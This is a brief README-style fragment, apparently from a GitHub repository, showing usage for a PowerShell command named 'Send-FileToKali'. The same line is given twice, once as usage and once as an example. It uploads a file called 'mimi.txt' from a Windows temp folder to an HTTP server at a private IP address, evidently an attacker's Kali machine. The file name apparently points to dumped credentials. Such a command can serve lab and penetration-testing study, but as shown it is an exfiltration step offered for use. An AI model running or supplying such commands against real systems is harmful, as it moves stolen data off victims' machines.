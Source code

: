 # USAGE
```
Send-FileToKali -FilePath "C:\Program Files\temp\mimi.txt" -UploadUrl "http://172.16.99.11:8000/"
```
### Example
```
Send-FileToKali -FilePath "C:\Program Files\temp\mimi.txt" -UploadUrl "http://172.16.99.11:8000/"
```
